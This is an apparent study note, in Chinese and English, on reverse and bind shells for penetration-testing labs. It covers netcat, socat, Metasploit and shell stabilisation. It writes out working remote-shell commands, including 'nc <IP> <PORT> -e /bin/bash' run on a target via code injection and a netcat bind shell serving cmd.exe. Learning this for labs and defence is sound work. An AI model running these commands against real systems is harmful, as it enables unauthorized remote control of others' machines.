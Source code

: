 # Shell
> bash or sh programs in Linux and cmd.exe or Powershell on Windows.

[TOC]

## Type of shell
* Reverse Shell
* Bind Shell

## Tools
* Netcat
    * Shells are unstable by default.
    * Have .exe version
* Socat
    * superior than netcat
    * more difficult and rarely installed by default
    * Have .exe version
* Metasploit -- multi/handler
    * In the auxiliary/multi/handler module
    * The easiest way to handle staged payloads.
* Msfvenom
    * generate payloads immediately

## Interactivity

* Interactive 
> 像是Powershell, Bash, Zsh, sh或是任何的standard CLI environment都是interactive shells. <br> 這類的shell讓你可以在執行程式後和程式做互動 <br> ![](https://i.imgur.com/5ixb5t3.png) <br> 上圖中的ssh程式就是一種互動式程式
* Non-Interactive
> 在這類Shell中，使用者被限制在只能執行非互動式的程式，否則程式無法正常運作。<br> <font color=#FF0000>絕大多數的簡易Reverse Shell和Bind Shell都屬於非互動式的Shell</font> <br> ![](https://i.imgur.com/Gy6eAzw.png) <br> 上圖中的whoami指令是屬於非互動式的，所以在執行上不會有任何狀況發生，但如果執行ssh指令(或任意互動式指令)並不會回傳任何內容，可以看出互動式程式在非互動式的shell中是沒辦法運作的。<br> [圖中listener的定義](##語法解釋) 



## Reverse Shell
:::success
從target連回attacker  `比較常見`
:::
* A good way to bypass firewall rules 
(防火牆規則會限制port的連線)
* Whe receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell.
(必須對自己的網路做設定並同意靶機的連線)

範例如下:
**<font color= #FF0000>Attacker</font>**
```shell=
sudo nc -lvnp 443 #attacker
```

**<font color=#FF0000>Target</font>**
```shell=
nc <LOCAL-IP> <PORT> -e /bin/bash #target
#通常Target端是在web端透過code injection來實現這行指令
```

**(左Attacker 右Target)**
![](https://i.imgur.com/jZXOhAY.png)

從圖中可以看出Reverse Shell是<font color=#FF0000>**先**</font>從攻擊機開始監聽並從目標機送出連線請求。


## Bind Shell
:::success
從attacker連到target `很少使用，但很有用`
:::
* Be opened up to the internet.
(代表可以連上用惡意程式打開的port並且達到RCE的效果)
* It may be prevented by firewalls.

範例如下:
**<font color=#FF0000> Target </font>**
```shell=
nc -lvnp <port> -e "cmd.exe"
```

**<font color=#FF0000> Attacker </font>**
```shell=
nc MACHINE_IP <port>
```

**(左Attacker 右Target`Target為Windows機`)**`這裡開啟監聽的指令並不局限於Windows`
![](https://i.imgur.com/pspQ3xu.png)

從圖中可以看出Bind Shell是<font color=#FF0000>**先**</font>從Target開始監聽後並從攻擊機連回目標機。

## Ways to stablize netcat shell
1. Python
    > [color=#4cc6d3] `linux only` <br> Three stage process:<br>1. `python -c 'import pty;pty.spawn("/bin/bash")'`<br>透過python生成一個更好的bash shell，在某些目標上會需要指定python版本(將`python`替換為`python2`或是`python3`)，此時的shell雖然好一點了，但依舊無法透過`tab`來自動完成和上下鍵且`Ctrl + C`一樣會中斷shell。<br> 2.`export TERM=xterm`<br>這行指令會提供我們使用術語指令的權限，像是`clear`<br>3.`Ctrl + Z`<br>先把這個程式(這裡指shell)暫停後丟到後台，此時就會回到原本的terminal。<br> `stty raw -echo` <br> 這行指令會把當前terminal的echo功能關閉(功能包含tab autocompletes, the arrow keys, and Ctrl + C to kill process)<br> `fg` <br>最後使用fg指令把後臺的指令拿到前台來執行。<br> 這時接回來的shell就是可互動式的了。<br>範例如下:<br>![](https://i.imgur.com/fueD3uo.png)<br>可以看到上圖在執行完三個步驟後就能使用ssh(互動式)指令了。
    :::info
    需要注意的是如果shell停止運作的話(圖中netcat連過去得到的shell)，此時會回到自己的terminal，如果你嘗試輸入到terminal內的話會發現畫面上不會顯示任何內容，原因是因為在步驟3把echo給disable了，如果要解決這個問題只需要輸入<font color=#FF0000>`reset`</font>後按下enter即可。
    :::



## 語法解釋
 
```shell=
nc -lvnp <port> -e "cmd.exe"
```
1. nc --> netcat 縮寫
2. -l --> listen mode
3. -v --> verbose (use twice to be more verbose)
4. -n --> numeric-only IP address, no DNS (只接受IP，不接受Domain Name)
5. -p port --> local port number (can be individual or ranges: low-high `inclusive`)
6. -e filename --> specify filename to exec after connect (例子為連線後執行cmd.exe)
:::info
port的選擇可以任意，但低於1024的port號需要管理員權限(sudo)
:::

**<font color=#FF0000>截圖中的listener是以下指令的alias</font>**
```shell=
sudo rlwrap nc -lvnp 443 
```
1. [rlwrap](https://github.com/hanslub42/rlwrap) --> 一種readline wrapper，讓使用者可以透過任意按鍵修改指令(像是上下鍵找之前的指令)。

```shell=
nc <target-ip> <chosen-port>
```
1. 使用netcat連回目標機上我們開啟的監聽端口


## Reference
* [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [Reverse Shell Cheatsheet  —  The PentestMonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [SecList](https://github.com/danielmiessler/SecLists)
* [Shell Scripting – Interactive and Non-Interactive Shell](https://www.geeksforgeeks.org/shell-scripting-interactive-and-non-interactive-shell/)
* Kali linux -- /usr/share/webshells
* TryHackMe -- What the Shell?
